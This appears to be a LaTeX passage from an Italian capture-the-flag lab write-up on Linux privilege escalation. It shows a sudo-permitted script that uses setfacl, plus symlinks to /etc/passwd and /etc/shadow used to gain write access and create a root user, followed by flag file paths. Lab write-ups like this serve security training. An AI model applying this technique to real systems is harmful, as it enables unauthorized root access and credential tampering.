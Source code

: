 \documentclass[a4paper,11pt]{article}
\begin{document}
\begin{lstlisting}
sudo -l
\end{lstlisting}

Output:

\begin{lstlisting}
/opt/acl.sh
\end{lstlisting}

Lo script può essere eseguito con privilegi elevati.

\subsection{Sfruttamento}

Lo script utilizza \texttt{setfacl}, consentendo la modifica dei permessi su file arbitrari.

Si creano link simbolici ai file sensibili:

\begin{lstlisting}
ln -s /etc/passwd passwd_link
ln -s /etc/shadow shadow_link
\end{lstlisting}

Utilizzando lo script, si ottiene accesso in scrittura.

A questo punto è possibile creare un nuovo utente con privilegi root ed effettuare il login:

\begin{lstlisting}
su nuovo_root
\end{lstlisting}

\textbf{Accesso root ottenuto.}

\section{Proof of Compromise}

\subsection{User Flag}

\begin{lstlisting}
/home/mtz/user.txt
\end{lstlisting}

\subsection{Root Flag}

\begin{lstlisting}
/root/root.txt
\end{lstlisting}
\end{document}
